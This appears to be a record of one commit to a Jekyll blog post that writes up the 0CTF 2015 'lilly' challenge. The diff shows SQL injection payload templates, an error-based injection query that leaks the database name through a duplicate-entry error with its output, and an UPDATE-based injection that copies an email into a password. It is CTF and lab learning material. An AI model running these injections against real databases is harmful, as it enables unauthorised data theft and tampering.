

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-03-0ctf-lilly.md, in a window 1280 px wide and 1400 px high, scrolled down 787 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 1867 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-03-0ctf-lilly.md

```diff
--- a/_posts/2015-04-03-0ctf-lilly.md
+++ b/_posts/2015-04-03-0ctf-lilly.md
@@ -70,13 +73,6 @@ while 1:
 ' or (payload) and '
 " – (payload) – "
 ''=(payload)=''
-</pre>
-{% endraw %}
-
-
-经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)
-
-[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
 
 准备测试数据：
 Create database newdb;
@@ -86,12 +82,11 @@ desc users;  查看表的结构
 insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
 
 新建flag表：
+
 CREATE TABLE flag(id int(3) NOT NULL AUTO_INCREMENT, flag varchar(64) NOT NULL,PRIMARY KEY (id));
 insert into flag(id,flag) values(1,'0CTF{R0t_?_S8rRy_1_doNt_N}');
-
 mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
 ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'
-
 
 show databases;
 use security;
@@ -106,3 +101,5 @@ show tables;
 | users              |
 +--------------------+
 update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
+</pre>
+{% endraw %}
```
Also changed, not shown: other parts of _posts/2015-04-03-0ctf-lilly.md (+3 -0 lines).
